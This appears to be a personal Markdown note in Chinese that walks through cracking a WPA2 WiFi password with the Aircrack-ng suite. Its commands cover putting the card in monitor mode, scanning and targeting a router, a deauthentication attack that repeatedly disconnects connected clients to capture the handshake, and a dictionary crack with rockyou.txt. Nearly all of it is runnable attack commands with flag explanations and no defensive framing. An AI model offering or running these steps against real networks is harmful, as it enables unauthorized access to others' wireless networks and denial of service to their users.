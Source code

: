 ```
airmon-ng check kill （提示杀掉一些进程）
```



> Aircrack-ng是一个包含了多款工具的套装，我们需要使用里面的：
>  airmon-ng
>  airodump-ng
>  aireplay-ng
>  aircrack-ng



#### 1.查看网卡

```
iwconfig  #查看无线网卡名字
```

![image-20210703191234093](../../../media/makapaka/WorkStation/VsWorkstation/note/img/image-20210703191234093.png)

#### 2.设置网卡为监听模式

```
airmon-ng  start wlan0
```





#### 3.扫描附近wifi

```
airodump-ng  wlan0mon 
```

![image-20210703191439590](../../../media/makapaka/WorkStation/VsWorkstation/note/img/image-20210703191439590.png)



选定对象

```
 D0:76:E7:04:60:77  -58      189        0    0   1  270  WPA2 CCMP   PSK  305 
```

#### 4.监听指定路由器

```
airodump-ng -w tplink -c 11 --bssid 16:1E:FF:78:3B:6F wlan0mon   # -w 参数指定生成的文件名  -c 指定信道 --bssid指定路由器的MAC地址 
```

```
C8:3A:35:D9:FC:A1
```

**攻击正在连接的客户端**

```
aireplay-ng -0 50 -a 68:A0:3E:F0:B6:D4  -c A4:50:46:CA:AB:ED  wlan0mon  # 50是发包的数量 -a指定路由器的MAC地址  -c指定连接的客户端的MAC地址 
```

```
解释：-0为模式中的一种：冲突攻击模式，后面跟发送次数（设置为0，则为循环攻击，不停的断开连接，客户端无法正常上网，-a 指定无线AP的mac地址，即为该无线网的bssid值，
```

右上角可以看到WPA handshake字样，后面跟着bssid，即为抓到了该无线网的握手包

![image-20210703200829591](../../../media/makapaka/WorkStation/VsWorkstation/note/img/image-20210703200829591.png)

#### 5.对抓到的包进行破解

```
aircrack-ng  -w  /usr/share/wordlists/rockyou.txt  -b  BC:46:99:3D:66:D6 tplink-01.cap #-w指定 密码字典 -b指定路由器的MAC地址
```







mdk3 

#### 无线网卡推出监听模式

```
airmon-ng stop wlan0mon 
```

c代表频道, 后面带的是频道

bssid: mac地址(物理地址)

-w代表目录(抓到的握手包放在这个目录下面)